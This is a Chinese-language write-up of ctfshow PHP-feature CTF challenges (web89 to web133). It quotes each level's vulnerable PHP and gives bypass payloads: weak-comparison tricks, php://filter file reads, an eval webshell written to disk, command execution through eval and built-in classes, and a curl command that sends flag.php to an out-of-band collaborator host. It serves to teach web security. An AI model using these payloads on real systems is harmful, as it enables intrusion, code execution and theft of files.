




## php特性

### web89

intval 转换数组类型时 不关心数组中的内容 ，只判断数组中有没有元素，可以使用数组绕过,数组为空返回0，否则返回1 所以输入?num[]=1即可



### web90

我想到的是进制绕过,因为intval支持进制转换所以我用的8进制010574，方法挺多的



### web91

```text
<?php
show_source(__FILE__);
include('flag.php');
$a=$_GET['cmd'];
if(preg_match('/^php$/im', $a)){
    if(preg_match('/^php$/i', $a)){
        echo 'hacker';
    }
    else{
        echo $flag;
    }
}
else{
    echo 'nonononono';
}
```

观查一下可以发现一个是‘/im’，一个是‘/i’，i（忽略大小写）和m（多行模式），那我们就要锁定一下这个差异了，如果第一个通过，第二个不通过就可以获得flag，我们可以利用这个多行模式，构造payload:?cmd=%0aphp

### web92

```text
<?php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(intval($num,0)==4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}
```

if(intval($num,0)==4476),这个函数的作用是 将$num的值转化成十进制整数,那我们可以用小数来构造payload

得到?num=4476.1     当然也可以用进制转换

### web93

```text
<?php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]/i", $num)){
        die("no no no!");
    }
    if(intval($num,0)==4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}
```

同上题可以用小数和进制转换，过滤了a-z的大小写,所以二进制的0b和16进制的0x不能用,只能用8进制

payload:num=010574

### web95

```text
<?php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]|\./i", $num)){
        die("no no no!!");
    }
    if(!strpos($num, "0")){
        die("no no no!!!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }
}
```

与上题相比过滤了'.',但是仔细观察可以发现我们可以根据web91的换行来绕过，当然了为了保证传入的数据有0这边还需要进制转换一下payload:?num=%0a010574

### web96

```text
<?php
highlight_file(__FILE__);

if(isset($_GET['u'])){
    if($_GET['u']=='flag.php'){
        die("no no no");
    }else{
        highlight_file($_GET['u']);
    }
}
```

运用php伪协议读取，payload:?u=php://filter/read=convert.base64-encode/resource=flag.php

看了一下wp发现还有另一种解法，官方wp：在linux下面表示当前目录是 ./ 所以我们的payload： u=./flag.php

### web97

```text
<?php
include("flag.php");
highlight_file(__FILE__);
if (isset($_POST['a']) and isset($_POST['b'])) {
if ($_POST['a'] != $_POST['b'])
if (md5($_POST['a']) === md5($_POST['b']))
echo $flag;
else
print 'Wrong.';
}
?>
```

对a和b没什么要求那我们可以直接用数组绕过

### web98

```text
<?php
include("flag.php");
$_GET?$_GET=&$_POST:'flag';
$_GET['flag']=='flag'?$_GET=&$_COOKIE:'flag';
$_GET['flag']=='flag'?$_GET=&$_SERVER:'flag';
highlight_file($_GET['HTTP_FLAG']=='flag'?$flag:__FILE__);

?>
```

分析一下代码，主要就是让HTTP_FLAG=flag传入，但是上面有许多的三元判断语句，

```text
_GET?_GET=&$_POST:'flag';
```

如果 `$_GET` 存在（即请求包含 GET 参数），则将 `$_GET` 指向 `$_POST` 的引用就会把post当作get处理（我是这样理解的

然后看看中间两行，我们只想获得`$flag`的话好像用不上

所以get传啥都行，而post需要为HTTP_FLAG=flag

### web99

```text
<?php
highlight_file(__FILE__);
$allow = array();
for ($i=36; $i < 0x36d; $i++) { 
    array_push($allow, rand(1,$i));
}
if(isset($_GET['n']) && in_array($_GET['n'], $allow)){
    file_put_contents($_GET['n'], $_POST['content']);
}

?>
```

in_array()函数的弱比较漏洞，如果没有设置第三个参数，in_array() 函数在比较时默认是弱类型比较，这意味着它会进行自动类型转换。例如数组中的元素是整数，而搜索的值是字符串，PHP 会尝试将字符串转换为整数来进行比较。就比如说传入1.php,它就会认为只传入了1

而代码检测传入是是否为1到i的数字，因此我们可以构造

payload：get:?n=1 post:content=<?=eval($_REQUEST['1'])?> 然后就可以进入1.php查找flag了

### web100

```text
<?php
highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\;/", $v2)){
        if(preg_match("/\;/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
    
}

?>
```

审计一下代码，就是说v1要是数字(因为=的优先级比and高，所以我们只需要符合v1是数字就行，后面是干扰的)，然后呢v2不能出现；而v3需要出现；

v2和v3的中间还有个`('ctfshow')`，那我们拼接语句的话可以试试把他给注释掉，没啥过滤咱就可以直接写命令了

payload：?v1=1&v2=var_dump($ctfshow)/*&v3=*/;

**print_r和var_dump都行（能输出多个值）**

### web102

```text
<?php
highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    file_put_contents($v3,$str);
}
else{
    die('hacker');
}

?>
```

这题有点难啊，先补充一下知识

```text
substr() 字符串截取

call_user_func() 调用方法或变量,第一个参数是调用的对象，第二个参数是被调用对象的参数

file_put_contents() 用来写文件进去，第一个参数是文件名，第二个参数是需要写进文件中的内容 文件名支持伪协议
```

审计一下代码，就是说v2得是个数，并且进入if条件后v2的前两个值会被删除，v1与v3我们都可以控制，v3我们写入文件名，一般写入我们就能联想到php伪协议，然后v1写入方法，我们这样思路就有了，先加密v2为数字，然后用v1还原然后用v3写入，但是payload我没构造出来，也许是php7的原因我没弄成功（事实证明确实是这个问题，php7环境并不认为0x是一个数字）

看看官方wp的payload:

```text
GET
v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-
decode/resource=2.php
POST
v1=hex2bin    /*最后查看一下2.php源码就能看到了*/
```

v2去掉前面两个11后是这个PD89YGNhdCAqYDs，base64后为<?=`cat *`;

引用一下大佬写的过程

```text
v3=php://filter/write=convert.base64-decode/resource=2.php v2:写进2.php的内容 ——> 查看当前页面源码；<?=cat *; ——> 转为base64为PD89YGNhdCAqYDs ——>转为16进制的ascii码为5044383959474e6864434171594473——>绕过截断，在前面随意加两位数字225044383959474e6864434171594473 v1：将数字字符串还原为base64码 ——> hex2bin
```

### web103

加了一个过滤但是web102的发法依然可以过

### web104

```text
<?php
highlight_file(__FILE__);
include("flag.php");

if(isset($_POST['v1']) && isset($_GET['v2'])){
    $v1 = $_POST['v1'];
    $v2 = $_GET['v2'];
    if(sha1($v1)==sha1($v2)){
        echo $flag;
    }
}
```

弱比较，可以数组绕过

```text
其他：
aaK1STfY
0e76658526655756207688271159624026011393
aaO8zKZF
0e89257456677279068558073954252716165668
```

### web105

```text
<?php
highlight_file(__FILE__);
include('flag.php');
error_reporting(0);
$error='你还想要flag嘛？';
$suces='既然你想要那给你吧！';
foreach($_GET as $key => $value){
    if($key==='error'){
        die("what are you doing?!");
    }
    $$key=$$value;
}foreach($_POST as $key => $value){
    if($value==='flag'){
        die("what are you doing?!");
    }
    $$key=$$value;
}
if(!($_POST['flag']==$flag)){
    die($error);
}
echo "your are good".$flag."\n";
die($suces);

?>
```

代码审计，get里不能有error，post不能有flag，看到了$$kay=$$$value涉及变量覆盖

构造payload：`GET: ?suces=flag POST: error=suces`，这就是相互覆盖，

suces->flag    error->suces   die $error（die() 函数输出一条消息，并退出当前脚本）

### web106

```text
<?php
highlight_file(__FILE__);
include("flag.php");

if(isset($_POST['v1']) && isset($_GET['v2'])){
    $v1 = $_POST['v1'];
    $v2 = $_GET['v2'];
    if(sha1($v1)==sha1($v2) && $v1!=$v2){
        echo $flag;
    }
}

?>
```

弱比较数组可绕，也可以碰撞`aaO8zKZF`以及`aaK1STfY`

### web107

```text
<?php
highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

if(isset($_POST['v1'])){
    $v1 = $_POST['v1'];
    $v3 = $_GET['v3'];
       parse_str($v1,$v2);
       if($v2['flag']==md5($v3)){
           echo $flag;
       }

}

?>
```

```text
parse_str()函数就是把v1的解析赋值给v2
```

我们要让`v2['flag']==md5(v3)`那我就有个想法，v2不是个数组吗，那我们给v3也传个数组，那不就和上一题一样的数组绕过了吗，v1随便传点啥都行

还有其他解法，比如我们只要满足v3的md5等于v2[flag]即可。可以传递给v3任意值，然后v1=flag=v3的md5值。

payload：?v3=flag post: v1=flag=327a6c4304ad5938eaf0efb6cc3e53dc

又或者v3=QNKCDZO; v1=flag=0 因为MD50e可以绕过

### web108

```text
<?php
highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

if (ereg ("^[a-zA-Z]+$", $_GET['c'])===FALSE)  {
    die('error');

}
//只有36d的人才能看到flag
if(intval(strrev($_GET['c']))==0x36d){
    echo $flag;
}

?>
```

一个关于erge()的漏洞，`ereg` 遇到 NULL字节会截断检查，其中 `%00` 是URL编码的NULL字节，所以被检测的就只有前面的`%00`部分，strrev() 函数会反转字符串，`0x36d`=877，那我们就可以构造payload：`?c=a%00778`

### web109

```text
<?php
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/[a-zA-Z]+/', $v1) && preg_match('/[a-zA-Z]+/', $v2)){
            eval("echo new $v1($v2());");
    }

}

?>
```

代码看的懂但不会做，就是说使用正则表达式函数 `preg_match()` 来检查变量 `$v1` 和 `$v2` 是否包含至少一个字母。如果两者都满足条件，则执行 `eval()` 函数，将 `$v2()` 执行的结果作为参数创建一个新的 `$v1` 类对象，并通过 `echo` 输出**。**

看看wp吧，要使用内置类,还有个知识点，`php中只要是变量后面紧跟着()，就会对这个变量进行函数调用`

```text
{使用php自带的内置方法}
{在php官方文档找到带有::__toString的后缀，这种是类}
{我把带__toString的函数罗列一些出来}
CachingIterator::__toString()
DirectoryIterator::__toString
Error::__toString
Exception::__toString
pyload:
?v1= CachingIterator&v2=system(ls)
?v1= DirectoryIterator&v2=system(ls)
?v1= Error&v2=system(ls)
?v1= Exception&v2=system(ls)
```

### web110

```text
<?php
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/~|`|\!|\@|\#|\\$|\%|\^|\&|*|\(|\)|_|\-|\+|=|\{|[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v1)){
            die("error v1");
    }
    if(preg_match('/~|`|\!|\@|\#|\\$|\%|\^|\&|*|\(|\)|_|\-|\+|=|\{|[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v2)){
            die("error v2");
    }

    eval("echo new $v1($v2());");

}

?>
```

payload:?v1=FilesystemIterator&v2=getcwd

解释：在PHP中，`FilesystemIterator` 类是 `IteratorIterator` 类的一个子类，它用于遍历目录结构中的文件和目录。`FilesystemIterator` 类提供了对文件系统中的文件和目录进行迭代的能力，这使得开发者可以轻松地遍历文件夹及其子文件夹中的内容。**`getcwd()`****的主要功能是获取当前工作目录的绝对路径。**

类`FilesystemIterator`可以用来遍历目录，需要一个路径参数

函数`getcwd`可以返回当前工作路径且不需要参数，所以就有了这个payload

### web111

```text
<?php

highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

function getFlag(&$v1,&$v2){
    eval("$$v1 = &$$v2;");
    var_dump($$v1);
}

if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/~| |`|\!|\@|\#|\\$|\%|\^|\&|*|\(|\)|_|\-|\+|=|\{|[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v1)){
            die("error v1");
    }
    if(preg_match('/~| |`|\!|\@|\#|\\$|\%|\^|\&|*|\(|\)|_|\-|\+|=|\{|[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v2)){
            die("error v2");
    }
    
    if(preg_match('/ctfshow/', $v1)){
            getFlag($v1,$v2);
    }
    

}
```

老话，看见这个咱就应该想到变量覆盖，把v2的地址给v1

```text
eval("$$v1 = &$$v2;");
```

然后我们来审计一下代码，需要v1=ctfshow才能触发getFlag，v1和v2都只能输入字母，额，那v1就只能是ctfshow，

那我们想一下什么玩意能作用于全局呢，全局变量啊，而且又是赋值地址

```text
$GLOBALS 是一个超全局变量，在 PHP 中用于访问全局作用域内的所有变量。这个超全局变量实际上是一个包含所有全局变量的数组。你可以通过 $GLOBALS 数组来访问和修改全局作用域中的任何变量，即使在函数或方法内部。
```

那我们就有了

```text
/?v1=ctfshow&v2=GLOBALS 
```

### web112

```text
<?php

highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/\.\.\/|http|https|data|input|rot13|base64|string/i',$file)){
        die("hacker!");
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

额，过滤了一些data啥的，但是我们还有php://filter

```text
payload:?file=php://filter/convert.quoted-printable-encode/resource=flag.php
```

这个就行，不加过滤应该也行

```text
?file=php://filter/resource=flag.php
```

```text
php://filter/resource=flag.php
php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=flag.php
php://filter/read=convert.quoted-printable-encode/resource=flag.php
compress.zlib://flag.php  #这些都行
```

### web113

```text
<?php
highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/filter|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

额，我们的filter被过滤掉了，我们可以使用`compress.zlib://flag.php`，就是说zip协议绕过，这个是官网给的[https://www.php.net/manual/es/wrappers.compression.php](https://www.php.net/manual/es/wrappers.compression.php)

然后看看发现官方的payload不是这个

```text
/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/p
roc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/pro
c/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/
self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/se
lf/root/proc/self/root/var/www/html/flag.php
```

这里是运用了目录溢出

#### **`/proc/self/root`** **的作用**

- **`/proc/self`**：是一个指向当前进程（即访问该路径的进程）的符号链接。例如，若当前进程 PID 是 `1234`，则 `/proc/self` 等效于 `/proc/1234`。
- **`/proc/[pid]/root`**：是进程的根目录（`/`）的符号链接。对于未使用 `chroot` 的普通进程，`/proc/self/root` 指向系统的根目录 `/`。

**核心原理**是：  
通过反复插入 `/proc/self/root`（指向系统根目录 `/` 的符号链接），最终等效于直接访问 `/var/www/html/flag.php`。

但因为太长了，导致is_file认为它不是一个文件，就成功绕过了

### web114

```text
<?php
error_reporting(0);
highlight_file(__FILE__);
function filter($file){
    if(preg_match('/compress|root|zip|convert|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
echo "师傅们居然tql都是非预期 哼！";
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

这题没过滤filter，直接

```text
payload:?file=php://filter/resource=flag.php
```

### web115

```text
<?php
include('flag.php');
highlight_file(__FILE__);
error_reporting(0);
function filter($num){
    $num=str_replace("0x","1",$num);
    $num=str_replace("0","1",$num);
    $num=str_replace(".","1",$num);
    $num=str_replace("e","1",$num);
    $num=str_replace("+","1",$num);
    return $num;
}
$num=$_GET['num'];
if(is_numeric($num) and $num!**'36' and trim($num)!**'36' and filter($num)=='36'){
    if($num=='36'){
        echo $flag;
    }else{
        echo "hacker!!";
    }
}else{
    echo "hacker!!!";
}
```

我们来观察一下这个题目，首先num要是个数字，然后强比较不等于36，再然后去除首尾空格后的字符串不能是36，

最后经过filter，将那些都替换成1

```text
payload:?num=%0c36
```

这里解释一下%0c是换页符，为的是让强比较那边过去

### web123

```text
<?php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|~|`|\!|\@|\#|\%|\^|*|\-|\+|=|\{|\}|\"|\'|\,|\.|\;|\?/", $c)&&$c<=18){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
?>
```

咱们直接看到这行，需要传两个参，然后不能传参给fl0g

```text
isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])
```

然后我们可以看到CTF_SHOW.COM这个是个非法传参，会把不符合条件的符号给转换为下划线但是只能转换一次，我们可以对他使用类似于双写绕过的方法CTF[SHOW.COM这样就出现了两个不合法字符，也就只会转换一个为下划线。

然后我们传个参数给$c（因为我们已经有了eval(),所以能直接使用

```text
payload：CTF_SHOW=1&CTF[SHOW.COM=2&fun=echo $flag
```

### web125

```text
<?php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|~|`|\!|\@|\#|\%|\^|*|\-|\+|=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print/i", $c)&&$c<=16){
         eval("$c".";");
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
?>
```

大事不妙，过滤了好多东西，但我们发现highlight_file()没被过滤那我们可以这样子

```text
payload：GET:?1=flag.php POST:CTF_SHOW=&CTF[SHOW.COM=&fun=highlight_file($_GET[1])
```

### web126（思

```text
<?php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|~|`|\!|\@|\#|\%|\^|*|\-|\+|=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print|g|i|f|c|o|d/i", $c) && strlen($c)<=16){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
```

这里我们可以看到过滤了好多东西，很有意思啊，我们终于可以用用到$a=$`_SERVER['argv'];`了（也没啥其他的用的了）

先多提一嘴`parse_str — 将字符串解析成多个变量`

```text
a=_SERVER['argv'];传递给该脚本的参数的数组。当脚本以命令行方式运行时，argv 变量传递给程序 C 语言样式的命令行参数。当通过 GET 方式调用时，该变量包含query string
在网页模式下（通过浏览器访问 PHP 脚本），$_SERVER['argv'] 通常不包含有用的信息，因为网页请求没有命令行参数。有时服务器配置会将查询字符串或其他信息填充到 $_SERVER['argv'] 中。
bool assert( mixed $assertion[, Throwable $exception] )
如果 填入的assertion 是字符串，它将会被 assert() 当做 PHP 代码来执行。 assertion 是字符串的优势是当禁用断言时它的开销会更小，并且在断言失败时消息会包含 assertion 表达式。这意味着如果你传入了 boolean 的条件作为 assertion，这个条件将不会显示为断言函数的参数；在调用你定义的 assert_options() 处理函数时，条件会转换为字符串，而布尔值 FALSE 会被转换成空字符串。
```

```text
payload：GET:?a=1+fl0g=flag_give_me POST:fun=CTF%5BSHOW.COM=2&CTF_SHOW=1&fun=parse_str($a[1])  //通过加号 + 分割 argv 成多个部分，也是为了得到 fl0g=flag_give_me ，其中 parse_str() 函数用来把查询字符串解析到变量中。
或者
GET:?$fl0g=flag_give_me POST:CTF_SHOW=&CTF[SHOW.COM=&fun=assert($a[0])
或者post:fun=eval($_REQUEST[m])&m=$fl0g%3d"flag_give_me";&CTF_SHOW=1&CTF[SHOW.COM=1
```

### web127

```text
<?php
error_reporting(0);
include("flag.php");
highlight_file(__FILE__);
$ctf_show = md5($flag);
$url = $_SERVER['QUERY_STRING'];

//特殊字符检测
function waf($url){
    if(preg_match('/`|~|\!|\@|\#|\^|*|\(|\)|\\$|_|\-|\+|\{|\;|\:|[|]|\}|\'|\"|\<|\,|\>|\.|\\\|\//', $url)){
        return true;
    }else{
        return false;
    }
}

if(waf($url)){
    die("嗯哼？");
}else{
    extract($_GET);
}

if($ctf_show==='ilove36d'){
    echo $flag;
}
```

考察全局变量，直接ctf_show=ilove36d不行因为过滤了_,那我们可以利用不合法变量名来绕过

```text
payload:?ctf%20show=ilove36d
```

### web128

```text
<?php
error_reporting(0);
include("flag.php");
highlight_file(__FILE__);

$f1 = $_GET['f1'];
$f2 = $_GET['f2'];

if(check($f1)){
    var_dump(call_user_func(call_user_func($f1,$f2)));
}else{
    echo "嗯哼？";
}

function check($str){
    return !preg_match('/[0-9]|[a-z]/i', $str);
}
```

检测f1，但是f1不能是数字和字母，这应该是一个独特的知识点

```text
_()==gettext() 是gettext()的拓展函数，开启text扩展。需要php扩展目录下有php_gettext.dll
可以将参数翻译成指定语言，一般就是原封不动的输出参数
get_defined_vars() — 返回由所有已定义变量所组成的数组 两个一起结合就可以获得 $flag
?f1=_&f2=get_defined_vars
```

### web129

```text
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['f'])){
    $f = $_GET['f'];
    if(stripos($f, 'ctfshow')>0){
        echo readfile($f);
    }
}
```

```text
stripos() — 查找字符串首次出现的位置（不区分大小写）
```

嘶，琢磨半天不知道是目录超越，再一看hint也没看懂这个payload

```text
?f=/ctfshow/../../../../var/www/html/flag.php
///var/www/html这个是网站根目录
```

然后又看了别的师傅的wp，伪协议直接读取到了。。。

```text
?f=php://filter/ctfshow/resource=flag.php
```

### web130

```text
<?php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
    $f = $_POST['f'];

    if(preg_match('/.+?ctfshow/is', $f)){
        die('bye!');
    }
    if(stripos($f, 'ctfshow') === FALSE){
        die('bye!!');
    }

    echo $flag;

}
```

过滤了ctfshow?,大错特错，

```text
.+?：匹配任意字符（包括空格、符号等），但尽可能少匹配，直到遇到 ctfshow。
ctfshow：必须匹配这个字符串（但大小写不敏感）。
通过 s 修饰符，可以跨行匹配（例如，字符串可能跨越多行）。
stripos() 确认ctfshow出现
```

在不加转义字符的前提下，前面的点表示任意字符，而“+?”表示非贪婪匹配，即前面的字符至少出现一次,因为是.+?尽可能少的匹配，那我们直接可以别去匹配不就得了

```text
payload:f=ctfshow
```

### web131

```text
<?php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
    $f = (String)$_POST['f'];

    if(preg_match('/.+?ctfshow/is', $f)){
        die('bye!');
    }
    if(stripos($f,'36Dctfshow') === FALSE){
        die('bye!!');
    }

    echo $flag;

}
```

利用所有常规手段无法绕过时，那我们可以试试百万回溯

```text
只需要输入的匹配字符串长度大于1000000，那么preg_match函数就会直接返回false
```

```text
import requests
url = ''
s = 'very'*250000 + '36Dctfshow'
data = {'f': s}

# 禁用 SSL 验证 不禁用会报错
ret = requests.post(url, data=data, verify=False).text
print(ret)
```

### web132

目录爆破一下看到/robots.txt，有给/admin路由，访问得源码

```text
<?php
include("flag.php");
highlight_file(__FILE__);

if(isset($_GET['username']) && isset($_GET['password']) && isset($_GET['code'])){
    $username = (String)$_GET['username'];
    $password = (String)$_GET['password'];
    $code = (String)$_GET['code'];

    if($code **= mt_rand(1,0x36D) && $password **= $flag || $username ==="admin"){
        
        if($code == 'admin'){
            echo $flag;
        }
        
    }
}
```

第一眼看代码感觉有点不可思议的，既然$code是随机数那怎么搞，再仔细一看&&的优先级是比||高的，那我们就可以明白了

```text
要么$code **= mt_rand(1,0x36D) && $password **= $flag这个成立
或者$username ==="admin"这个成立
我们只需要让username==admin就能过这个判断了，password可以随便传
```

那我们payload就好创了

```text
payload:/admin/?username=admin&code=admin&password=1
```

### web133

```text
<?php
error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|netcat/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("6个字母都还不够呀?!");
    }
}
```

涨知识了

```text
payload：?F=`$F`;+curl -X POST -F xx=@flag.php  http://pa3f0c0grzper3py1qu4nkhct3zunmbb.oastify.com
网址是Burp Collaborator 的临时接收服务，这功能也是第一次知道是干什么的
```

```text
来说说这个骚的绕过姿势`$F`;+
因为会先经过substr($F,0,6)截取六个字符后得到 `$F `;
